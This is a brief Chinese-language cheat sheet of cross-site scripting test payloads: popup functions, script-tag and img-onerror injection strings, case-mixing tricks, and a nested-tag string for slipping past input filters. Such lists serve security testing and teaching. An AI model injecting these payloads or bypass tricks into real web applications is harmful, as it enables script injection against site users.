 ## 弹出框
1. alert()
2. confirm()
3. prompt()
## 代码块
1. ```<script>alert()</script>```
2. ```<img src=1 onerror=alert()>```
## 大小写
* SCRIPT、ScripT...
## 嵌套绕过
* ```<sc<script>ript>alert(1)</sc</script>ript>```